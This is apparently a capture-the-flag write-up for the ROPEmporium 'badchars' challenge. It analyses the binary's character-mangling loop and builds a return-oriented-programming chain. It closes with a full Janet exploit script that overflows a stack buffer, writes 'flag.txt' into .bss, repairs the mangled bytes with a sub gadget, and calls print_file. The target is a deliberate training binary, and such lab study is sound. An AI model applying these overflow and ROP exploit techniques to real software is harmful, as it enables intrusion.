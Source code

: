 # badchars (ROPEmporium Challenge 5)

## Analysis

As with the previous challenges, our buffer is still sized 0x20 bytes, but
there are an additional 0x20 bytes of stack space for other locals:

```
 972:	48 8d 45 c0          	lea    -0x40(%rbp),%rax
 976:	48 83 c0 20          	add    $0x20,%rax
 # not sure why we load the address at -0x40 and then add 0x20; why not just load address at -0x20?
 97a:	ba 00 02 00 00       	mov    $0x200,%edx
 97f:	48 89 c6             	mov    %rax,%rsi
 982:	bf 00 00 00 00       	mov    $0x0,%edi
 987:	e8 34 fe ff ff       	call   7c0 <read@plt>
```

This time, we read up to `0x200` bytes.
The actual amount of bytes read is stored on the stack and later used to
iterate over the input char by char.

```
r2 libbadchars.so
aa
afl
pdf @0x000008fa # sym.pwnme
│           0x0000098c      488945c0       mov qword [var_40h], rax
│           0x00000990      48c745c80000.  mov qword [var_38h], 0
│       ┌─< 0x00000998      eb51           jmp 0x9eb
│      ┌──> 0x0000099a      48c745d00000.  mov qword [var_30h], 0
│     ┌───< 0x000009a2      eb31           jmp 0x9d5
│    ┌────> 0x000009a4      488b45c8       mov rax, qword [var_38h]
│    ╎│╎│   0x000009a8      0fb64c05e0     movzx ecx, byte [rbp + rax - 0x20]
│    ╎│╎│   0x000009ad      488b45d0       mov rax, qword [var_30h]
│    ╎│╎│   0x000009b1      488b15280620.  mov rdx, qword [reloc.badcharacters] ; [0x200fe0:8]=0
│    ╎│╎│   0x000009b8      0fb60402       movzx eax, byte [rdx + rax]
│    ╎│╎│   0x000009bc      38c1           cmp cl, al
│   ┌─────< 0x000009be      7509           jne 0x9c9
│   │╎│╎│   0x000009c0      488b45c8       mov rax, qword [var_38h]
│   │╎│╎│   0x000009c4      c64405e0eb     mov byte [rbp + rax - 0x20], 0xeb
│   └─────> 0x000009c9      488b45d0       mov rax, qword [var_30h]
│    ╎│╎│   0x000009cd      4883c001       add rax, 1
│    ╎│╎│   0x000009d1      488945d0       mov qword [var_30h], rax
│    ╎│╎│   ; CODE XREF from sym.pwnme @ 0x9a2(x)
│    ╎└───> 0x000009d5      488b45d0       mov rax, qword [var_30h]
│    ╎ ╎│   0x000009d9      4883f803       cmp rax, 3
│    └────< 0x000009dd      76c5           jbe 0x9a4
│      ╎│   0x000009df      488b45c8       mov rax, qword [var_38h]
│      ╎│   0x000009e3      4883c001       add rax, 1
│      ╎│   0x000009e7      488945c8       mov qword [var_38h], rax
│      ╎│   ; CODE XREF from sym.pwnme @ 0x998(x)
│      ╎└─> 0x000009eb      488b55c8       mov rdx, qword [var_38h]
│      ╎    0x000009ef      488b45c0       mov rax, qword [var_40h]
│      ╎    0x000009f3      4839c2         cmp rdx, rax
│      └──< 0x000009f6      72a2           jb 0x99a
```

The above assembly could be described as doing:

```
Input mangling:
For each character:
  For all of the four bad chars:
    When the current char is the bad char:
      Replace the character with 0xEB (not a valid ASCII character)
      9c0:	48 8b 45 c8          	mov    -0x38(%rbp),%rax
      9c4:	c6 44 05 e0 eb       	movb   $0xeb,-0x20(%rbp,%rax,1)
```

As in the previous challenge, we still store our "flag.txt" string in the
`.bss` section.

```sh
objdump -h badchars
# 23 .bss          00000008  0000000000601038  0000000000601038  00001038  2**0
#                  ALLOC
```

To do so, we string together two little gadgets.
The first loads the string and the address to store it under into registers:

```
  40069c:	41 5c                	pop    %r12   # "flag.txt"
  40069e:	41 5d                	pop    %r13   # address to stare string into 0x0000000000601038
  4006a0:	41 5e                	pop    %r14
  4006a2:	41 5f                	pop    %r15
  4006a4:	c3                   	ret
```

The second actually moves the string into the location pointed to by our
address.

```
  400634:	4d 89 65 00          	mov    %r12,0x0(%r13)
  400638:	c3                   	ret
```

Because of the string mangling happening in the `pwnme` function, we need to
find a way to fix the mangled string, before we can call `print_file@plt`.

Luckily, there are a bunch of useful gadgets helpfully provided to us.

```
0000000000400628 <usefulGadgets>:
  400628:	45 30 37             	xor    %r14b,(%r15)
  40062b:	c3                   	ret
  40062c:	45 00 37             	add    %r14b,(%r15)
  40062f:	c3                   	ret
  400630:	45 28 37             	sub    %r14b,(%r15)
  400633:	c3                   	ret
  400634:	4d 89 65 00          	mov    %r12,0x0(%r13)
  400638:	c3                   	ret
```

We could make use of either `xor` or `sub`, I spontaneously decided to go with
`sub`.

```
  400630:	45 28 37             	sub    %r14b,(%r15)
  400633:	c3                   	ret
```

Since the "bad" characters are all replaced with `0xEB` we need to subtract
the right amount from `0xEB` to end up with our required character.

```janet
# find the amount to subtract
# char = 0xEB - some_amount:
(- 0xEB (first (string/bytes char)))
```

As recommended by ROPEmporium, I wrote a little helper function to fix up the
bad chars.

```janet
(defn fixup-char
  [char address]
  (string/join ["\xA0\x06\x40\x00\x00\x00\x00\x00"                       # pop r14; pop r15 gadget
                (string/from-bytes (- 0xEB (first (string/bytes char)))) # r14b: amount to subtract
                "\x00\x00\x00\x00\x00\x00\x00"                           # r14: pad the rest of r14 with 0s
                address                                                  # r15: address of char
                "\x30\x06\x40\x00\x00\x00\x00\x00"                       # ret to sub fixup gadget
                ""]))
```

Once the string is fixed, we need to load its address into $rdi and then return
to `print_file@plt`.
To do so, we jump into the middle of the `pop $r15` instruction, which
effectively turns it into a `pop $rdi`.

```
 4006a2:	41 5f                	pop    %r15
 4006a4:	c3                   	ret
```

`5f` at `4006a3` makes it a `pop %rdi`.

The final exploit script looks like this:

```janet
(use sh)

#(print "\\x" (string/join (reverse (partition 2 "00000000004006A0")) "\\x"))
#(map (partial printf "%x") (string/bytes "flag.txt"))
#(print "\\x" (string/join ["66" "6c" "61" "67" "2e" "74" "78" "74"] "\\x"))
# \x66\x6c\x61\x67\x2e\x74\x78\x74

(defn fixup-char
  [char address]
  (string/join ["\xA0\x06\x40\x00\x00\x00\x00\x00" # pop r14; pop r15 gadget
                (string/from-bytes (- 0xEB (first (string/bytes char)))) "\x00\x00\x00\x00\x00\x00\x00" # r14: value to subtract
                address # r15: address of char
                "\x30\x06\x40\x00\x00\x00\x00\x00" # ret to sub fixup gadget
                ""]))

(def input (string/join [(string/repeat 'A 40) # overflow buffer
                         "\x9c\x06\x40\x00\x00\x00\x00\x00" # pop-slide gadget
                         "\x66\x6c\x61\x67\x2e\x74\x78\x74" # r12: "flag.txt" string
                         "\x38\x10\x60\x00\x00\x00\x00\x00" # r13: address at which to store string 
                         "\x00\x00\x00\x00\x00\x00\x00\x00" # r14:
                         "\x00\x00\x00\x00\x00\x00\x00\x00" # r15:
                         "\x34\x06\x40\x00\x00\x00\x00\x00" # mov %r12,0x0(%r13) gadget
                         (fixup-char "a" "\x3A\x10\x60\x00\x00\x00\x00\x00")
                         (fixup-char "g" "\x3B\x10\x60\x00\x00\x00\x00\x00")
                         (fixup-char "." "\x3C\x10\x60\x00\x00\x00\x00\x00")
                         (fixup-char "x" "\x3E\x10\x60\x00\x00\x00\x00\x00")
                         "\xa3\x06\x40\x00\x00\x00\x00\x00" # pop %rdi gadget
                         "\x38\x10\x60\x00\x00\x00\x00\x00" # address of string
                         "\x10\x05\x40\x00\x00\x00\x00\x00" # print_file@plt
                         ""]))
(spit "payload.txt" input)
($ ./badchars < ,input)
```
